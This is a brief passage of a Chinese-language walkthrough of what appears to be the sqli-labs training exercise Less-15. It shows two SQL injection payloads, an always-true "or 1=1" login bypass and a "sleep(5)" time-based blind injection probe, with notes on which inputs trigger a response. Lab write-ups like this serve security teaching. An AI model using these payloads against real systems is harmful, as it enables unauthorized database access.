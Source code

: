 

+ 注入如下语句

~~~ shell
1' or 1=1 #
~~~

![Less-15_3](./img/Less-15_3.PNG)

返回了正确页面，由上边返回错误页面这里返回正确页面可尝试布尔盲注或时间盲注



+ 判断是否有延时

~~~ shell
admin' and sleep(5) #
~~~

由于<code>1</code>不行没有反应所以<code>admin</code>代替<code>1</code>，而且只能是<code>admin</code>其他字符没有反应
